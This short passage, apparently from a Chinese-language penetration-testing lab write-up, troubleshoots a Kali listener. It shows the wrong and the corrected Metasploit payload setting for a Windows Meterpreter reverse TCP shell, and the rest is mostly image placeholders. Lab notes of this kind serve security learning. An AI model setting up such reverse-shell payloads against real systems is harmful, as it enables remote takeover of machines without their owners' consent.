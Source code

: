 ![Alt text](image-52.png)   
观察kali监听：   
* 问题：   
![Alt text](image-58.png)   
* 解决：原因是 `payload` 设置有问题：   
```shell
 #错误设置
 set payload windows/x64/meterpreter/reverse_tcp
 #正确设置
 set payload windows/meterpreter/reverse_tcp
```   